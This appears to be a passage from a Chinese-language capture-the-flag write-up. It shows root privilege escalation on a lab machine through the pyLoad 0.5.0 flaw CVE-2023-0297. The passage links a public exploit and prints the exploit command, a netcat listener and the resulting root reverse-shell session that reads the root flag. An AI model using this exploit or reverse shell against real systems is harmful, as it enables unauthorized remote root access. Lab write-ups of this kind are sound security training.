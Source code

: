 然后发现原来有[gitlab项目](https://github.com/pyload/pyload)，能运行命令。
```bash
sau@pc:~$ which pyload
/usr/local/bin/pyload
sau@pc:~$ pyload --version
pyLoad 0.5.0
```

知道版本，就搜了下是否有公开漏洞。


## Privilege Escalation

### PoC (CVE-2023-0297)

- [NVD](https://nvd.nist.gov/vuln/detail/CVE-2023-0297)
- [Exp](https://github.com/JacobEbben/CVE-2023-0297/tree/main)

[NVD里有个exp的链接](https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/)，试了下虽然确实可以创建 `/tmp/pwnd`，不过想给bash加SUID或者执行反弹shell命令就没用……不懂为什么。  
结果还是根据里面写的CVE号码继续搜了搜其他Exp，就找到上面那个Exp，运行后成功get shell。

## flag: root

```bash
└─$ python exp.py -t 127.0.0.1:8000 -c id -I 10.xx.xx.xx -P 81
[SUCCESS] Running reverse shell. Check your listener!

---

└─$ nc -lvnp 81                  
listening on [any] 81 ...
connect to [10.xx.xx.xx] from (UNKNOWN) [10.10.11.214] 48940
bash: cannot set terminal process group (1040): Inappropriate ioctl for device
bash: no job control in this shell
root@pc:~/.pyload/data# id
id
uid=0(root) gid=0(root) groups=0(root)
root@pc:~/.pyload/data# ls
ls
db.version
pyload.db
root@pc:~/.pyload/data# cat /root/root.txt
cat /root/root.txt
bec6…………7110
```


---

## 总结·后记

2023/05/25
……